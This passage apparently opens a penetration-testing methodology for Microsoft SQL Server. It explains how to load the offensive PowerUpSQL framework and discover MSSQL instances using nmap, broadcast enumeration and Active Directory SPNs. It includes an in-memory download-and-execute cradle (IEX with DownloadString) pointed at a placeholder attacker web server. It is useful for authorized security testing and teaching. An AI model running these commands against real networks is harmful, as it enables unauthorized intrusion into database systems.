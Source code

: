 # Microsoft SQL Server (MSSQL) - Methodology

### PowerUpSQL

[`PowerUpSQL`](https://github.com/NetSPI/PowerUpSQL) is a PowerShell framework
that implement cmdlets to discover, enumerate, and exploit `SQL server`
instances. A number of usage of the `PowerUpSQL` PowerShell cmdlets presented in this note are inspired from the [PowerUpSQL Cheat
Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

`PowerUpSQL` can be installed / imported in a number of ways:

```bash
# Permanently installs the framework from the PowerShell Gallery on the local system (requires local administrative privileges).
Install-Module -Name PowerUpSQL

# Imports the module in the current PowerShell session (to be executed in the project directory).
Import-Module PowerUpSQL.psd1

# Inject the PowerShell script in memory (for the current PowerShell session only).
IEX (Get-Content -Raw PowerUpSQL.ps1)

IEX(New-Object System.Net.WebClient).DownloadString("http://<WEBSERVER_IP>/PowerUpSQL.ps1")
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")
```

### MSSQL instances discovery

###### Through network scans

`nmap` can be used to scan the network for exposed `MSSQL` instances:

```bash
nmap -v -p 1433 -sV -sC -oA nmap_mssql <RANGE | CIDR>
```

###### On the current subnet broadcast domain

The `PowerUpSQL`'s `Get-SQLInstanceBroadcast` PowerShell cmdlet can be used to
discover `MSSQL` instances on the current local network subnet `broadcast
domain` using the `System.Data.Sql.SqlDataSourceEnumerator` class (and an `UPD`
broadcast request).

```bash
# -UDPPing: if set, additional information will be retrieved through a direct UDP request to the SQL Server Browser service of the discovered instances.
Get-SQLInstanceBroadcast [-UDPPing] -Verbose
```

###### Using Active Directory credentials

If Active Directory domain credentials are known, a list of the domain service
accounts referencing in their `ServicePrincipalName (SPN)` a `MSSQL` service
can be requested in order to identify the `MSSQL` instances, that make use of
the `Kerberos` authentication protocol, within the domain. As the `SPN` for
service accounts follow the naming convention `<SERVICE>/<HOST>`, `SPN`
starting with `MSSQL` are linked to `SQL Server` instances.
